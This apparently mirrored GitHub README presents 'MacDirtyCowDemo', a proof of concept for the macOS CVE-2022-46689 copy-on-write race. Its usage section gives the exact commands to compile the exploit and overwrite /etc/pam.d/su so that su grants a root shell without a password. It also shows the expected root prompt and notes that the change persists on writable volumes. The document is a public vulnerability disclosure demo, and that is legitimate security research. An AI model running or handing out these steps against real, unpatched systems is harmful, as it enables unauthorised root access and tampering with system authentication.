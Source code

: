 # MacDirtyCowDemo

Get root on macOS 13.0.1 with CVE-2022-46689 (macOS equivalent of the Dirty Cow bug), using the testcase extracted from Apple's XNU source.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/zhuowei](https://github.com/zhuowei) |
| Url      | [https://github.com/zhuowei/MacDirtyCowDemo](https://github.com/zhuowei/MacDirtyCowDemo)                                               |
| Stars    | 344                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

Get root on macOS 13.0.1 with [CVE-2022-46689](https://support.apple.com/en-us/HT213532) (macOS equivalent of the Dirty Cow bug), using the testcase extracted from [Apple's XNU source](https://github.com/apple-oss-distributions/xnu/blob/xnu-8792.61.2/tests/vm/vm_unaligned_copy_switch_race.c).

https://worthdoingbadly.com/macdirtycow/

## Usage
On a macOS 13.0.1 / 12.6.1 (or below) machine, run:

```
clang -o switcharoo vm_unaligned_copy_switch_race.c
sed -e "s/rootok/permit/g" /etc/pam.d/su > overwrite_file.bin
./switcharoo /etc/pam.d/su overwrite_file.bin
su
```

You should get:

```
% ./switcharoo /etc/pam.d/su overwrite_file.bin
Testing for 10 seconds...
RO mapping was modified
% su
sh-3.2# 
```

Tested on macOS 13 beta (22A5266r) with SIP off (it should still work with SIP on).

If your system is fully patched (macOS 13.1 / 12.6.2), it should instead read:

```
$ ./switcharoo /etc/pam.d/su overwrite_file.bin
Testing for 10 seconds...
vm_read_overwrite: KERN_SUCCESS:9865 KERN_PROTECTION_FAILURE:3840 other:0
Ran 13705 times in 10 seconds with no failure
```

and running `su` should still ask for a password.

Thanks to Sealed System Volume, running this on any file on the /System volume only modifies the file temporarily: It's reverted on reboot. Running it on a file on a writeable volume will preserve the modification after a reboot.

## Credits

- Ian Beer of Project Zero for finding the issue. Looking forward to your writeup!
- Apple for the test case. (I didn't change anything: I just added the command line parameter to control what to overwrite.)
- [SSLab@Gatech](https://gts3.org/assets/papers/2020/jin:pwn2own2020-safari-slides.pdf) for the trick to disable password checking using `/etc/pam.d`.



## Get the content

```
git clone https://github.com/zhuowei/MacDirtyCowDemo
cd MacDirtyCowDemo
```

{% embed url="https://github.com/zhuowei/MacDirtyCowDemo" %}

<figure><img src="https://avatars.githubusercontent.com/u/704768?v=4" alt=""><figcaption><p>zhuowei</p></figcaption></figure>
